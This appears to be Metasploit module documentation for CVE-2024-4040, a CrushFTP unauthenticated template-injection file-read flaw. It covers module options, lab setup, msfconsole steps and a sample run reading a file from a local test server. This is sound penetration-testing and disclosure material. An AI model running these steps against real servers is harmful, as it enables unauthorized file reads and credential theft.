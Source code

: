 ## Vulnerable Application
This module leverages an unauthenticated server-side template injection vulnerability in CrushFTP < 10.7.1 and
< 11.1.0 (as well as legacy 9.x versions). Attackers can submit template injection payloads to the web API without
authentication. When attacker payloads are reflected in the server's responses, the payloads are evaluated. The
primary impact of the injection is arbitrary file read as root, which can result in authentication bypass, remote
code execution, and NetNTLMv2 theft (when the host OS is Windows and SMB egress traffic is permitted).
More information can be found in the [Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/20oYjlmfXa/cve-2024-4040/rapid7-analysis).

## Options

### INJECTINTO
The unauthenticated API function to use for template injection (default: zip).

### STORE_LOOT
Whether the read file's contents should be outputted to the console or stored as loot (default: false).

### TARGETFILE
The target file to read (default: users/MainUsers/groups.XML). This can be a full path, a relative path, or a network share path (if 
firewalls permit). Files containing binary data may not be read accurately. Though file paths for Windows targets can contain `:` 
characters, like `C:\Windows\win.ini`, this will result in payloads not being fully redacted from CrushFTP logs.

## Testing
To set up a test environment:
1. Download an affected version of CrushFTP [here](https://github.com/the-emmons/CVE-2023-43177/releases/download/crushftp_software/CrushFTP10.zip) (SHA256: adc3619937ebb57b3a95c50f78fda5c388d072c0d34a317b9ed64a31127a6d3f).
2. Configure `CRUSH_DIR` in `crushftp_init.sh` to point to the correct install directory.
3. Execute `java -jar CrushFTP.jar` to show a local client GUI interface that can be used to set up an admin account.
4. Execute `sudo crushftp_init.sh start` to launch the software on Linux or Mac. If on Windows, run `CrushFTP.exe` as an administrator.
5. Follow the verification steps below.

## Verification Steps
1. Start msfconsole
2. `use auxiliary/gather/crushftp_fileread_cve_2024_4040`
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. `set RPORT <TARGET_PORT>`
5. `set TARGETFILE <TARGET_FILE_TO_READ>`
6. `set STORE_LOOT false` if you want to display file on the console instead of storing it as loot.
7. `run`

## Scenarios
### CrushFTP on Windows, Linux, or Mac
```
msf auxiliary(gather/crushftp_fileread_cve_2024_4040) > show options 

Module options (auxiliary/gather/crushftp_fileread_cve_2024_4040):

   Name        Current Setting             Required  Description
   ----        ---------------             --------  -----------
   INJECTINTO  zip                         yes       The CrushFTP API function to inject into (Accepted: zip, exists)
   Proxies                                 no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasp
                                                     loit.html
   RPORT       8080                        yes       The target port (TCP)
   SSL         false                       no        Negotiate SSL/TLS for outgoing connections
   STORE_LOOT  false                       yes       Store the target file as loot
   TARGETFILE  users/MainUsers/groups.XML  yes       The target file to read. This can be a full path, a relative path, or a network share path (i
                                                     f firewalls permit). Files containing binary data may not be read accurately
   TARGETURI   /                           yes       The URI path to CrushFTP
   VHOST                                   no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf auxiliary(gather/crushftp_fileread_cve_2024_4040) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf auxiliary(gather/crushftp_fileread_cve_2024_4040) > check
[+] 127.0.0.1:8080 - The target is vulnerable. Server-side template injection successful!
msf auxiliary(gather/crushftp_fileread_cve_2024_4040) > run
[*] Running module against 127.0.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Server-side template injection successful!
[*] Fetching anonymous session cookie...
[*] Using template injection to read file: users/MainUsers/groups.XML
[+] File read succeeded! 
<?xml version="1.0" encoding="UTF-8"?>
<groups type="properties"></groups>



[*] Auxiliary module execution completed
```
